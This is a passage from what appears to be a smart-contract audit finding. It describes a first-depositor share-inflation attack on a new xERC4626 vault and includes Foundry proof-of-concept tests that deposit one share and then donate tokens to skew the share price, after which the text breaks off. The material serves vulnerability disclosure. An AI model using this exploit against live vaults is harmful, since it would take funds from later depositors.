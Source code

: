 The share price always return 1:1 with asset token. If everything work normally, share price will slowly increase with time to 1:2 or 1:10 as more rewards coming in.

But right after xERC4626 contract creation, during first cycle, any user can deposit 1 share set `totalSupply = 1`. And transfer token to vault to inflate `totalAssets()` before rewards kick in. (Basically, pretend rewards themselves before anyone can deposit in to get much better share price.)

This can inflate base share price as high as 1:1e18 early on, which force all subsequence deposit to use this share price as base.

### [](#impact)Impact

New xERC4626 vault share price can be manipulated right after creation. Which give early depositor greater share portion of the vault during the first cycle.

While deposit token also affected by rounding precision (due to exploit above) that always return lesser amount of share for user.

### [](#proof-of-concept-1)Proof of Concept

Add these code to `xERC4626Test.t.sol` file to test.

        function testExploitNormalCase() public {
            token.mint(address(this), 1e24); // funding
            token.approve(address(xToken), type(uint256).max);
            xToken.syncRewards();
            hevm.warp(1); // skip 1 block from sync rewards. to update new TotalAsset() value
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            emit log_named_uint("deposit 1e18  ", xToken.deposit(1e18, address(this)));
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            emit log_named_uint("deposit 500e18", xToken.deposit(500e18, address(this)));
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            emit log_named_uint("deposit 500e18", xToken.deposit(500e18, address(this)));
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            emit log_string("fast forward 1 hour to new rewards cycle");
            hevm.warp(3601); // new cycle
            emit log_named_uint("deposit 2e18  ", xToken.deposit(2e18, address(this)));
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            emit log_named_uint("deposit 500e18", xToken.deposit(500e18, address(this)));
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            // Share price stay the same 1:1. Due to no rewards have been given.
        }
    
        function testExploitShare() public {
            token.mint(address(this), 1e24); // funding
            token.approve(address(xToken), type(uint256).max);
    
            // init total supply as 1:1 share with token as one.
            xToken.deposit(1, address(this));
    
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            emit log_string("transfer 100e18 fake token rewards to inflate share price");
            // transfer fake rewards token to xToken contract to inflate totalAsset()
            token.transfer(address(xToken), 100e18);
            xToken.syncRewards();
            hevm.warp(1); // skip 1 block from sync rewards. to update new TotalAsset() value
    